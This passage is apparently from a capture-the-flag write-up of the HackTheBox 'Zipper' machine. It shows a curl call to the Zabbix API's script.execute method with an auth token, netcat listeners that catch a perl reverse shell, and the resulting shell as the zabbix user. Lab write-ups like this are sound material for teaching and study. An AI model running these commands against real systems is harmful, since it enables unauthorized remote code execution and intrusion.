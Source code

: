 Now I’ll start a normal listener on 445.

So in the first window, I `curl`:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": "10106", "scriptid": 5}}' | jq -c .
{"jsonrpc": "2.0","error": {"code": -32500,"message": "Application error.","data": "Timeout while executing a shell script."},"id": 1}

```

In the second window the shell connects, and immediately gets the perl reverse shell string:

```

root@kali# cat perl.shell | nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.108.
Ncat: Connection from 10.10.10.108:47448.
/bin/sh: 0: can't access tty; job control turned off
root@kali#

```

Now the third window has stable shell:

```

root@kali# nc -lvnp 445
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::445
Ncat: Listening on 0.0.0.0:445
Ncat: Connection from 10.10.10.108.
Ncat: Connection from 10.10.10.108:35842.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$ hostname
zipper

```

### Path 2 - Zabbix to Zabbix Agent

#### RCE on Zabbix

The next two paths start with RCE on the Zabbix host (container). For this one, I’ll show the Exploit-Db script. For the next one, I’ll use the API.

I’ll grab the script:
